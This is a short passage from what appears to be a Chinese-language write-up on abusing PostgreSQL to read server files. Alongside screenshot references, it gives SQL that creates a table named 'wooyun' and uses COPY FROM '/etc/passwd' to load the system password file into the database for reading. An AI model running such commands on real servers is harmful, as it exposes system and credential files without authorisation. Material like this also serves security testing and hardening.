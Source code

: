 b）读取权限允许的文件  
  
![pic](20180201_03_pic_002.jpg)  
  
还有个写文件函数测试并未成功，而且只能像data下写也是满足不了需求的。  
  
c）比较可行的文件读取方案  
  
```  
drop table wooyun;  
CREATE TABLE wooyun(t TEXT);  
COPY wooyun FROM '/etc/passwd';  
SELECT * FROM wooyun limit 1 offset 0;  
```  
  
![pic](20180201_03_pic_003.jpg)  
  